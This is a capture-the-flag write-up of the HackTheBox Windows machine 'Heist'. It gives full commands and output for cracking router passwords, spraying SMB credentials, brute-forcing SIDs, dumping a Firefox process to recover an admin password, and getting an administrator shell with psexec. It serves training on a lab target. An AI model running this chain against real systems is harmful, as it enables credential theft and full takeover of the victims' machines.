

---
search:
  exclude: true
---
# Heist Writeup

## Heist Introduction :

Heist is an easy Windows box that was released back in August 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.7/23 ] [~]
      → nmap -F 10.10.10.149
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 08:26 GMT
      Nmap scan report for 10.10.10.149
      Host is up (0.098s latency).
      Not shown: 97 filtered ports
      PORT    STATE SERVICE
      80/tcp  open  http
      135/tcp open  msrpc
      445/tcp open  microsoft-ds
    
      Nmap done: 1 IP address (1 host up) scanned in 3.04 seconds
    
      λ nihilist [ 10.10.14.7/23 ] [~]
      → nmap -sCV -p80,135,445 10.10.10.149
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-18 08:28 GMT
      Nmap scan report for 10.10.10.149
      Host is up (0.11s latency).
    
      PORT    STATE SERVICE       VERSION
      80/tcp  open  http          Microsoft IIS httpd 10.0
      | http-cookie-flags:
      |   /:
      |     PHPSESSID:
      |_      httponly flag not set
      | http-methods:
      |_  Potentially risky methods: TRACE
      |_http-server-header: Microsoft-IIS/10.0
      | http-title: Support Login Page
      |_Requested resource was login.php
      135/tcp open  msrpc         Microsoft Windows RPC
      445/tcp open  microsoft-ds?
      Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    
      Host script results:
      |_clock-skew: 57s
      | smb2-security-mode:
      |   2.02:
      |_    Message signing enabled but not required
      | smb2-time:
      |   date: 2020-02-18T08:30:02
      |_  start_date: N/A
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 65.57 seconds
    

## **Part 2 : Getting User Access**

Our nmap scan picked up the http service on port 80 so let's see what we are dealing with. http://10.10.10.149/login.php and we navigate over to issues.php

 
    
    
      version 12.2
      no service pad
      service password-encryption
      !
      isdn switch-type basic-5ess
      !
      hostname ios-1
      !
      security passwords min-length 12
      enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
      !
      username rout3r password 7 0242114B0E143F015F5D1E161713
      username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
      !
      !
      ip ssh authentication-retries 5
      ip ssh version 2
      !
      !
      router bgp 100
       synchronization
       bgp log-neighbor-changes
       bgp dampening
       network 192.168.0.0Â mask 300.255.255.0
       timers bgp 3 9
       redistribute connected
      !
      ip classless
      ip route 0.0.0.0 0.0.0.0 192.168.0.1
      !
      !
      access-list 101 permit ip any any
      dialer-list 1 protocol ip list 101
      !
      no ip http server
      no ip http secure-server
      !
      line vty 0 4
       session-timeout 600
       authorization exec SSH
       transport input ssh
    
    

Here we have a cisco router config, with 2 type 7 passwords, so we'll use [this python script](https://github.com/theevilbit/ciscot7) to decrypt them. As for the type 5 password we'll just use hashcat in combination with rockyou.txt to find the password.
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
      → git clone https://github.com/theevilbit/ciscot7
      Cloning into 'ciscot7'...
      remote: Enumerating objects: 4, done.
      remote: Counting objects: 100% (4/4), done.
      remote: Compressing objects: 100% (4/4), done.
      remote: Total 19 (delta 0), reused 0 (delta 0), pack-reused 15
      Unpacking objects: 100% (19/19), 6.73 KiB | 574.00 KiB/s, done.
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
      → cd ciscot7
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/ciscot7] at  master ✔
      → ls                                                                                                        [21af318]
      ciscot7.py  LICENSE.md  README.md
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/ciscot7] at  master ✔
      → python ciscot7.py -p 0242114B0E143F015F5D1E161713                                                         [21af318]
      Decrypted password: $uperP@ssword
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/ciscot7] at  master ✔
      → python ciscot7.py -p 02375012182C1A1D751618034F36415408                                                   [21af318]
      Decrypted password: Q4)sJu\Y8qz*A3?d
    

now that we have the two type 7 passwords, we'll try to get the type 5 password using hashcat and rockyou.txt 
    
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/ciscot7] at  master ✔
      → echo '$1$pdQG$o8nrSzsGXeaduXrjlvKc91' >> cis.md5                                                          [21af318]
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/ciscot7] at  master ?
      → cat cis.md5                                                                                               [21af318]
      $1$pdQG$o8nrSzsGXeaduXrjlvKc91
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/ciscot7] at  master ?
      → hashcat -m 500                                                                                            [21af318]
      Usage: hashcat [options]... hash|hashfile|hccapxfile [dictionary|mask|directory]...
    
      Try --help for more help.
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/ciscot7] at  master ?
      → hashcat -m 500 cis.md5 /usr/share/wordlists/rockyou.txt                                                   [21af318]
    

This takes some time to run, but we get the password "stealth1agent" 

  * rout3r:$uperP@ssword
  * admin:Q4)sJu\Y8qz*A3?d
  * secret:stealth1agent

other than those credentials, we have potential usernames : Hazard

In other words, we have 4 possible usernames, and 3 possible passwords, let's create users.txt and pass.txt , in order to use crackmapexec on the shares our nmap scan picked up earlier.
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
    → nano users.txt
    
    λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
    → nano pass.txt
    
    λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
    → crackmapexec smb 10.10.10.149 -u users.txt -p pass.txt
    SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SUPPORTDESK) (signing:False) (SMBv1:False)
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\secret:$uperP@ssword STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\secret:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\secret:stealth1agent STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\admin:$uperP@ssword STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\admin:stealth1agent STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\rout3r:$uperP@ssword STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\rout3r:stealth1agent STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\hazard:$uperP@ssword STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\hazard:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
    SMB         10.10.10.149    445    SUPPORTDESK      [+] SUPPORTDESK\hazard:stealth1agent
    SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares
    SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
    SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
    SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$                          Remote Admin
    SMB         10.10.10.149    445    SUPPORTDESK      C$                              Default share
    SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
    

We get matching credentials for hazard:stealth1agent ! Let's fire up the metasploit database and then launch msfconsole to see what we can do from there.
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Heist]
      → msfdb init
      [+] Starting database
      [+] Creating database user 'msf'
      [+] Creating databases 'msf'
      [+] Creating databases 'msf_test'
      [+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'
      [+] Creating initial database schema
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Heist]
      → msfconsole
    
      msf5 > creds
      Credentials
      ===========
    
      host  origin  service  public  private  realm  private_type  JtR Format
      ----  ------  -------  ------  -------  -----  ------------  ----------
    
      msf5 > use auxiliary/scanner/smb/smb_login
      msf5 auxiliary(scanner/smb/smb_login) > setg USER_FILE user.txt
      USER_FILE => user.txt
      msf5 auxiliary(scanner/smb/smb_login) > setg PASS_FILE pass.txt
      PASS_FILE => pass.txt
      msf5 auxiliary(scanner/smb/smb_login) > setg RHOSTS 10.10.10.149
      RHOSTS => 10.10.10.149
      msf5 auxiliary(scanner/smb/smb_login) > run
    

we can also run this and we would get the same results as the python script we ran before, matching hazard:stealth1agent, for this next section we'll use impacket scripts to continue with our enumeration process
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Heist]
    → locate psexec.py
    /usr/share/doc/python3-impacket/examples/psexec.py
    /usr/share/set/src/fasttrack/psexec.py
    
    λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Heist]
    → cd /usr/share/doc/python3-impacket/examples/
    
    λ root [ 10.10.14.7/23 ] [doc/python3-impacket/examples]
    → ls
    atexec.py      getST.py        mimikatz.py           opdump.py         rpcdump.py      smbserver.py
    dcomexec.py    getTGT.py       mqtt_check.py         ping6.py          sambaPipe.py    sniffer.py
    dpapi.py       GetUserSPNs.py  mssqlclient.py        ping.py           samrdump.py     sniff.py
    esentutl.py    goldenPac.py    mssqlinstance.py      psexec.py         secretsdump.py  split.py
    GetADUsers.py  ifmap.py        netview.py            raiseChild.py     services.py     ticketer.py
    getArch.py     karmaSMB.py     nmapAnswerMachine.py  rdp_check.py      smbclient.py    wmiexec.py
    GetNPUsers.py  kintercept.py   ntfs-read.py          registry-read.py  smbexec.py      wmipersist.py
    getPac.py      lookupsid.py    ntlmrelayx.py         reg.py            smbrelayx.py    wmiquery.py
    
    λ root [ 10.10.14.7/23 ] [doc/python3-impacket/examples]
    → python3 lookupsid.py 'hazard:stealth1agent'@10.10.10.149
    

The above command is going to run a RID/SID bruteforce which is going to give us more usernames 
    
    
      λ root [ 10.10.14.7/23 ] [doc/python3-impacket/examples]
      → python3 lookupsid.py 'hazard:stealth1agent'@10.10.10.149
      Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
    
      [*] Brute forcing SIDs at 10.10.10.149
      [*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
      [*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
      500: SUPPORTDESK\Administrator (SidTypeUser)
      501: SUPPORTDESK\Guest (SidTypeUser)
      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
      513: SUPPORTDESK\None (SidTypeGroup)
      1008: SUPPORTDESK\Hazard (SidTypeUser)
      1009: SUPPORTDESK\support (SidTypeUser)
      1012: SUPPORTDESK\Chase (SidTypeUser)
      1013: SUPPORTDESK\Jason (SidTypeUser)
    

And we're getting interesting results ! we have a few more possible usernames to add to our users.txt file 
    
    
      secret
      admin
      rout3r
      hazard
      support
      chase
      jason
    

running crackmapexec again, we are getting other matching credentials : 
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
      → crackmapexec smb 10.10.10.149 -u users.txt -p pass.txt
      SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SUPPORTDESK) (signing:False) (SMBv1:False)
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\secret:$uperP@ssword STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\secret:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\secret:stealth1agent STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\admin:$uperP@ssword STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\admin:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\admin:stealth1agent STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\rout3r:$uperP@ssword STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\rout3r:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\rout3r:stealth1agent STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\support:$uperP@ssword STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\support:Q4)sJu\Y8qz*A3?d STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\support:stealth1agent STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\chase:$uperP@ssword STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [+] SUPPORTDESK\chase:Q4)sJu\Y8qz*A3?d
    

Now that we have our matching credentials : chase:Q4)sJu\Y8qz*A3?d let's use evil-winrm to login.
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
      → git clone https://github.com/Hackplayers/evil-winrm
      Cloning into 'evil-winrm'...
      remote: Enumerating objects: 65, done.
      remote: Counting objects: 100% (65/65), done.
      remote: Compressing objects: 100% (54/54), done.
      remote: Total 765 (delta 33), reused 27 (delta 11), pack-reused 700
      Receiving objects: 100% (765/765), 1.97 MiB | 485.00 KiB/s, done.
      Resolving deltas: 100% (438/438), done.
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
      → cd evil-winrm
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/evil-winrm] at  master ✔
      → cat Gemfile                                                                                                [e501272]
      source 'https://rubygems.org'
    
      gem 'winrm'
      gem 'winrm-fs'
      gem 'stringio'
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/evil-winrm] at  master ✔
      → gem install winrm winrm-fs stringio                                                                        [e501272]
      Fetching: builder-3.2.4.gem (100%)
      ERROR:  While executing gem ... (Gem::FilePermissionError)
          You don't have write permissions for the /var/lib/gems/2.5.0 directory.
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/evil-winrm] at  master ✔
      → sudo !!                                                                                                    [e501272]
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/evil-winrm] at  master ✔
      → sudo gem install winrm winrm-fs stringio                                                                   [e501272]
      [sudo] password for nihilist:
    

Once that's done, run the ruby script as follows: 
    
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/evil-winrm] at  master ✔
      → ruby evil-winrm.rb -u chase -p 'Q4)sJu\Y8qz*A3?d' -i 10.10.10.149                                          [e501272]
    
      Evil-WinRM shell v2.3
    
      Info: Establishing connection to remote endpoint
    
      *Evil-WinRM* PS C:\Users\Chase\Documents>
    

And we are logged in as the Chase user!
    
    
      *Evil-WinRM* PS C:\Users\Chase\Documents> cd ..
      *Evil-WinRM* PS C:\Users\Chase> gci -recurse . | select fullname
    
      FullName
      --------
      C:\Users\Chase\3D Objects
      C:\Users\Chase\Contacts
      C:\Users\Chase\Desktop
      C:\Users\Chase\Documents
      C:\Users\Chase\Downloads
      C:\Users\Chase\Favorites
      C:\Users\Chase\Links
      C:\Users\Chase\Music
      C:\Users\Chase\Pictures
      C:\Users\Chase\Saved Games
      C:\Users\Chase\Searches
      C:\Users\Chase\Videos
      C:\Users\Chase\Desktop\todo.txt
      C:\Users\Chase\Desktop\user.txt
      C:\Users\Chase\Favorites\Links
      C:\Users\Chase\Favorites\Bing.url
      C:\Users\Chase\Links\Desktop.lnk
      C:\Users\Chase\Links\Downloads.lnk
    
      *Evil-WinRM* PS C:\Users\Chase> type Desktop\user.txt
      a1XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

and that's it ! we have been able to print out the user flag :) 

## **Part 3 : Getting Root Access**

In order to privesc, let's check out the files we can view beforehand.
    
    
      *Evil-WinRM* PS C:\Users\Chase> cd Desktop
      *Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
      Stuff to-do:
      1. Keep checking the issues list.
      2. Fix the router config.
    
      Done:
      1. Restricted access for guest user.
    

looks like they had to fix the router config, as we saw earlier in the issues.php webpage on the http service running on port 80.
    
    
      *Evil-WinRM* PS C:\Users> cd Hazard
      *Evil-WinRM* PS C:\Users\Hazard> dir
      Access to the path 'C:\Users\Hazard' is denied.
      At line:1 char:1
      + dir
      + ~~~
          + CategoryInfo          : PermissionDenied: (C:\Users\Hazard:String) [Get-ChildItem], UnauthorizedAccessException
          + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
    

checking out hazard's user directory, we get permissions denied. We know there is a webserver, so let's enumerate it. 
    
    
      *Evil-WinRM* PS C:\> cd inetpub
      *Evil-WinRM* PS C:\inetpub> cd wwwroot
      *Evil-WinRM* PS C:\inetpub\wwwroot> dir
      Access to the path 'C:\inetpub\wwwroot' is denied.
      At line:1 char:1
      + dir
      + ~~~
          + CategoryInfo          : PermissionDenied: (C:\inetpub\wwwroot:String) [Get-ChildItem], UnauthorizedAccessException
          + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
      *Evil-WinRM* PS C:\inetpub\wwwroot>
    

Weird, we don't have permissions to see what files are there in the wwwroot directory, although we know for a fact that index.php, login.php ,issues.php are there. Let's check out the most interesting one : login.php 
    
    
      session_start();
      if( isset($_REQUEST['login']) && !empty($_REQUEST['login_username']) && !empty($_REQUEST['login_password'])) {
      	if( $_REQUEST['login_username'] === 'admin@support.htb' && hash( 'sha256', $_REQUEST['login_password']) === '91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040') {
      		$_SESSION['admin'] = "valid";
      		header('Location: issues.php');
      	}
      	else
      		header('Location: errorpage.php');
      }
      else if( isset($_GET['guest']) ) {
      	if( $_GET['guest'] === 'true' ) {
      		$_SESSION['guest'] = "valid";
      		header('Location: issues.php');
      	}
      }
    

Looking at the results, we see a few interesting information : admin@support.htb, and a hash sha256 91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040. So navigating over to [https://hashes.org](https://hashes.org/search.php) we paste our hash and see that sadly, hashes.org can't find it for us, so we navigate over to the attachments directory
    
    
      *Evil-WinRM* PS C:\inetpub\wwwroot> cd attachments
    *Evil-WinRM* PS C:\inetpub\wwwroot\attachments> gci
    
    
        Directory: C:\inetpub\wwwroot\attachments
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----        4/21/2019   1:02 PM            780 config.txt
    

this is the config.txt we found earlier, but since we don't have the writing rights to put our reverse shell in here, let's try to enumerate the machine a little further. 
    
    
      *Evil-WinRM* PS C:\inetpub\wwwroot\attachments> cd /
      *Evil-WinRM* PS C:\> gci
    
    
          Directory: C:\
    
    
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      d-----        4/21/2019   5:33 PM                inetpub
      d-----        9/15/2018  12:49 PM                PerfLogs
      d-r---        8/27/2019   3:00 PM                Program Files
      d-----        4/22/2019   6:56 AM                Program Files (x86)
      d-r---        4/22/2019   7:26 AM                Users
      d-----        8/27/2019   3:01 PM                Windows
    
    
      *Evil-WinRM* PS C:\> cd "Program Files"
      *Evil-WinRM* PS C:\Program Files> gci
    
    
          Directory: C:\Program Files
    
    
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      d-----        4/21/2019   9:39 AM                Common Files
      d-----        4/21/2019  11:00 AM                internet explorer
      d-----        4/22/2019   6:56 AM                Mozilla Firefox
      d-----        4/22/2019   6:47 AM                PHP
      d-----        4/22/2019   6:46 AM                Reference Assemblies
      d-----        4/22/2019   6:46 AM                runphp
      d-----        8/27/2019   3:00 PM                VMware
      d-r---        4/21/2019  11:00 AM                Windows Defender
      d-----        4/21/2019  11:00 AM                Windows Defender Advanced Threat Protection
      d-----        9/15/2018  12:49 PM                Windows Mail
      d-----        4/21/2019  11:00 AM                Windows Media Player
      d-----        9/15/2018  12:49 PM                Windows Multimedia Platform
      d-----        9/15/2018  12:58 PM                windows nt
      d-----        4/21/2019  11:00 AM                Windows Photo Viewer
      d-----        9/15/2018  12:49 PM                Windows Portable Devices
      d-----        9/15/2018  12:49 PM                Windows Security
      d-----        9/15/2018  12:49 PM                WindowsPowerShell
    

We see that Firefox is installed, let's see if firefox is running using Get-Process
    
    
      *Evil-WinRM* PS C:\Program Files> Get-Process
    
      Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
      -------  ------    -----      -----     ------     --  -- -----------
          445      17     2268       5632               416   0 csrss
          293      17     2288       5216               500   1 csrss
          358      15     3488      14520              5244   1 ctfmon
          257      14     4144      13504              3988   0 dllhost
          166       9     1880       9812       0.61   6596   1 dllhost
          619      32    33752      59888               372   1 dwm
         1491      58    23660      78168              5624   1 explorer
         1129      69   118928     157936      28.55   2204   1 firefox
          343      20     9980      37448       0.50   6272   1 firefox
          408      31    16888      62536       1.34   6516   1 firefox
          390      30    30596      64112      42.83   6860   1 firefox
          358      26    16348      37612       0.69   7020   1 firefox
    

From there, we need to processdump one of the firefox processes, to do so we'll use sysinternals 

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
      → wget https://download.sysinternals.com/files/SysinternalsSuite.zip
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
      → mv ~/Downloads/SysinternalsSuite.zip .
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
      → unzip SysinternalsSuite.zip
    

_Terminal 1:_
    
    
      *Evil-WinRM* PS C:\Program Files> cd \users\chase\Documents
      *Evil-WinRM* PS C:\users\chase\Documents> upload /home/nihilist/_HTB/Heist/procdump64.exe
      Info: Uploading /home/nihilist/_HTB/Heist/procdump64.exe to C:\users\chase\Documents\procdump64.exe
    
      Data: 455560 bytes of 455560 bytes copied
    
      Info: Upload successful!
    

once it's uploaded, we can basically dump the firefox process we mentionned earlier. we'll set a few flags to run the binary we uploaded : -accepteula (self explanatory) -ma (write a full dump file)
    
    
      *Evil-WinRM* PS C:\users\chase\Documents> .\procdump64.exe -accepteula -ma 2204
    
    ProcDump v9.0 - Sysinternals process dump utility
    Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
    Sysinternals - www.sysinternals.com
    
    [15:30:36] Dump 1 initiated: C:\users\chase\Documents\firefox.exe_200218_153036.dmp
    [15:30:36] Dump 1 writing: Estimated dump file size is 460 MB.
    [15:30:38] Dump 1 complete: 460 MB written in 1.8 seconds
    [15:30:38] Dump count reached.
    

Be aware that the accepteula flag creates a registry entry, which is basically forensic artifact on the box. looking at the results :
    
    
      Evil-WinRM* PS C:\users\chase\Documents> gci
    
    
          Directory: C:\users\chase\Documents
    
    
      Mode                LastWriteTime         Length Name
      ----                -------------         ------ ----
      -a----        2/18/2020   3:30 PM      470485425 firefox.exe_200218_153036.dmp
      -a----        2/18/2020   3:26 PM         341672 procdump64.exe
    
    

We're getting a massive file so let's download it rather than printing it's contents in the reverse shell, 

_Terminal 1:_
    
    
      *Evil-WinRM* PS C:\users\chase\Documents> download firefox.exe_200218_153036.dmp
      Info: Downloading C:\users\chase\Documents\firefox.exe_200218_153036.dmp to firefox.exe_200218_153036.dmp
    

We're downloading a massive file and it takes forever, so let's print out the contents of the .dmp file locally looking for passwords 

_Terminal 2:_
    
    
      λ nihilist [ 10.10.14.7/23 ] [_HTB/Heist/evil-winrm] at  master ?
      → strings firefox.exe_200218_153036.dmp | grep pass                                                          [e501272]
      "C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login;_password=4dD!5}x/re8]FBuZ&login;=
      MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login;_password=4dD!5}x/re8]FBuZ&login;=
      localhost/login.php?login_username=admin@support.htb&login;_password=4dD!5}x/re8]FBuZ&login;=
      MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login;_password=4dD!5}x/re8]FBuZ&login;=
      x:///chrome/toolkit/content/passwordmgr/
      x:///chrome/en-US/locale/en-US/passwordmgr/
    

Here we see that a certain password shows up : 4dD!5}x/re8]FBuZ for the user admin@support.htb

Although it offers no progress whatsoever to log in as that user on the webservice so let's try our credentials somewhere else. let's update our users.txt
    
    
      secret
      admin
      rout3r
      support
      chase
      jason
      administrator
    

let's update our pass.txt 
    
    
      4dD!5}x/re8]FBuZ
    

With our updated users.txt, let's run crackmapexec once again with the password we just found.
    
    
      λ nihilist [ 10.10.14.7/23 ] [~/_HTB/Heist]
      → crackmapexec smb 10.10.10.149 -u users.txt -p pass.txt --shares
      SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SUPPORTDESK) (signing:False) (SMBv1:False)
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\secret:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\admin:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\rout3r:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\support:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\chase:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [-] SUPPORTDESK\jason:4dD!5}x/re8]FBuZ STATUS_LOGON_FAILURE
      SMB         10.10.10.149    445    SUPPORTDESK      [+] SUPPORTDESK\administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
      SMB         10.10.10.149    445    SUPPORTDESK      [+] Enumerated shares
      SMB         10.10.10.149    445    SUPPORTDESK      Share           Permissions     Remark
      SMB         10.10.10.149    445    SUPPORTDESK      -----           -----------     ------
      SMB         10.10.10.149    445    SUPPORTDESK      ADMIN$          READ,WRITE      Remote Admin
      SMB         10.10.10.149    445    SUPPORTDESK      C$              READ,WRITE      Default share
      SMB         10.10.10.149    445    SUPPORTDESK      IPC$            READ            Remote IPC
    

and we get matching credentials ! administrator:4dD!5}x/re8]FBuZ let's test out our freshly acquired credentials.
    
    
      λ root [ 10.10.14.7/23 ] [nihilist/_HTB/Heist]
    → python3 psexec.py administrator@10.10.10.149
    Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
    
    Password:
    [*] Requesting shares on 10.10.10.149.....
    [*] Found writable share ADMIN$
    [*] Uploading file REyCZIUo.exe
    [*] Opening SVCManager on 10.10.10.149.....
    [*] Creating service BCMq on 10.10.10.149.....
    [*] Starting service BCMq.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.437]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32>type \users\administrator\desktop\root.txt
    50XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

## **Conclusion**

Here we can see the progress graph :

